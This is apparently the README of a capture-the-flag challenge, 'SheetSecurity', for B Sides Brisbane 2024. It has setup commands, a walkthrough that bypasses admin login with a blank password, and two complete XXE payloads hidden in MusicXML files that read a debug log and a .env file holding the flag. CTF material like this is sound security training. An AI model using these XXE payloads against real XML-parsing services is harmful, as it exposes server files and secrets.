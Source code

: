 # SheetSecurity

CTF challenge for B Sides Brisbane 2024

## Setup

(todo)

```bash
# build
docker build -t sheet_security_image .
# run
docker run --rm -d -p 8000:8000 --name sheet_security sheet_security_image
```

## Walkthrough (short)

Quick solve:

- Admin auth as `admin/<blank>`, bypassing the UI requirement for a password
- Work out path to potential debug log
- Use XXE in (zipped xml) file upload to read that log file
- See a reference to a .env file and combine that with knowledge of the python script's path (from the info log)
- Use XXE to read `.env` and get the flag

## Walkthrough (long)

Expected path:

- Click on Admin Logon
- See clue that username is probably `admin`
- Attempt common techniques for bypassing auth e.g.
    - SQLi
    - admin/admin
    - brute force
    - no password
- Observe that the UI requires a password
- Try authenticating with a blank password
    - using Burp, curl etc. or by editing the DOM to remove `required` from the password field
    - the reason this works is because of flawed validation logic on the server - **not** because the password is actually blank
- Authenticate as `admin/<blank>`
- Observe that you're getting INFO, WARNING and ERROR logs
- Observe the file path convention for logs
- Deduce there might be a debug log at `/var/log/sheetsec-debug.log`
- Head back to the main page and realise you have file upload for mxl files
    - Research mxl - it's zipped .musicxml, which is just xml
    - There's a file you want to read (the debug log), so try XXE
- Craft an mxl file (zipped xml) with xxe to read that file
    - either place the payload in an xml field where the music renderer will display it (e.g. `<work-title>`) or place it anywhere and use the `Download watermarked file` button to download a copy of the `.musicxml` file with the XXE rendered
- View the log file and spot `Sourcing .env`
- Recall that the info log revealed the full path of the running py file
- Combine that path with .env to read the .env file using XXE, again
- View the .env file and get the flag - the admin's password

## XML to read the debug log

Remember to convert this .musicxml file to .mxl by zipping it.

```bash
zip read-debug-log.mxl read-debug-log.musicxml
```

Musicxml content:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE score-partwise PUBLIC "-//Recordare//DTD MusicXML 3.0 Partwise//EN" "http://www.musicxml.org/dtds/partwise.dtd" [<!ENTITY xxe SYSTEM "file:///var/log/sheetsec-debug.log"> ]>
<score-partwise version="3.0">
<movement-title>Prelude to a Tragedy - &xxe;</movement-title>
  <part-list>
    <score-part id="P1">
      <part-name/>
    </score-part>
  </part-list>
  <part id="P1">
    <measure number="1">
      <attributes>
        <divisions>4</divisions>
        <key>
          <fifths>0</fifths>
          <mode>major</mode>
        </key>
        <time>
          <beats>4</beats>
          <beat-type>4</beat-type>
        </time>
        <clef>
          <sign>G</sign>
          <line>2</line>
        </clef>
      </attributes>
      <note>
        <duration>16</duration>
        <pitch>
          <step>A</step>
          <octave>4</octave>
        </pitch>
      </note>
    </measure>
    <measure number="2">
      <note>
        <duration>16</duration>
        <pitch>
          <step>D</step>
          <octave>5</octave>
        </pitch>
      </note>
    </measure>
    <measure number="3">
      <note>
        <duration>16</duration>
        <pitch>
          <step>A</step>
          <octave>4</octave>
        </pitch>
      </note>
    </measure>
    <measure number="4">
      <note measure="yes">
        <rest/>
        <duration>16</duration>
      </note>
    </measure>
  </part>
</score-partwise>
```

## XML to read the .env file

Remember to convert this .musicxml file to .mxl by zipping it.

```bash
zip read-dot-env.mxl read-dot-env.musicxml
```

Musicxml content:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE score-partwise PUBLIC "-//Recordare//DTD MusicXML 3.0 Partwise//EN" "http://www.musicxml.org/dtds/partwise.dtd" [<!ENTITY xxe SYSTEM "file:///code/src/.env"> ]>
<score-partwise version="3.0">
<movement-title>Prelude to a Tragedy - &xxe;</movement-title>
  <part-list>
    <score-part id="P1">
      <part-name/>
    </score-part>
  </part-list>
  <part id="P1">
    <measure number="1">
      <attributes>
        <divisions>4</divisions>
        <key>
          <fifths>0</fifths>
          <mode>major</mode>
        </key>
        <time>
          <beats>4</beats>
          <beat-type>4</beat-type>
        </time>
        <clef>
          <sign>G</sign>
          <line>2</line>
        </clef>
      </attributes>
      <note>
        <duration>16</duration>
        <pitch>
          <step>A</step>
          <octave>4</octave>
        </pitch>
      </note>
    </measure>
    <measure number="2">
      <note>
        <duration>16</duration>
        <pitch>
          <step>D</step>
          <octave>5</octave>
        </pitch>
      </note>
    </measure>
    <measure number="3">
      <note>
        <duration>16</duration>
        <pitch>
          <step>A</step>
          <octave>4</octave>
        </pitch>
      </note>
    </measure>
    <measure number="4">
      <note measure="yes">
        <rest/>
        <duration>16</duration>
      </note>
    </measure>
  </part>
</score-partwise>
```
